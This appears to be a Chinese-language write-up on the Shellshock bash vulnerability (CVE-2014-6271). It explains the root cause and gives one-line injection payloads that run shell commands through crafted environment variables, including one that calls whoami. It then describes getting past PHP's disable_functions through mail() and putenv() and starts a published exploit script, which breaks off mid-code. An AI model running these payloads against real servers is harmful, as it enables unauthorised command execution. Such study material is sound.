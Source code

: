 https://www.antiy.com/response/CVE-2014-6271.html

### **漏洞原理**

4.3及之前的bash启动解析环境变量时未对边界进行严格的限制

“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。



bash函数的格式,调用函数只需变量名+参数即可`函数 参数1 参数2`

```bash
funtion ShellShock 
{ echo "Injection"} ShellShock   #调用这个函数
```

这个时候的Bash的环境变量：

```
KEY = ShellShockVALUE = () { echo Injection; }


```

来看看ShellShock漏洞的真身：

```shell
export ShellShock='() { :; }; echo;/usr/bin/whoami'
bash>Kr0iN
```

看看环境变量你有什么
![image.png](https://i.loli.net/2019/09/11/nhgdTelRLotsjym.png)




```bash
env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"
```

![image.png](https://i.loli.net/2019/09/11/nhgdTelRLotsjym.png)



### 利用方式

#### php的mail函数()

如果服务器的默认sh是bash,mail函数会生成一个bash进程,再结合putenv()利用破壳漏洞来实现任意命令执行

会生成bash进程除了mail,php函数还有imap_mail，如果你仅仅通过禁用mail函数来规避这个安全问题，那么imap_mail是可以做替代的。当然，php里还可能有其他地方有调用popen或其他能够派生bash子进程的函数，通过这些地方，都可以通过破壳漏洞执行命令的。

更详细的解释:p牛的[PHP Execute Command Bypass Disable_functions](https://www.leavesongs.com/PHP/php-bypass-disable-functions-by-CVE-2014-6271.html)

```php
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
<pre>
<?php echo "Disabled functions: ".ini_get('disable_functions')."\n"; ?>
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
```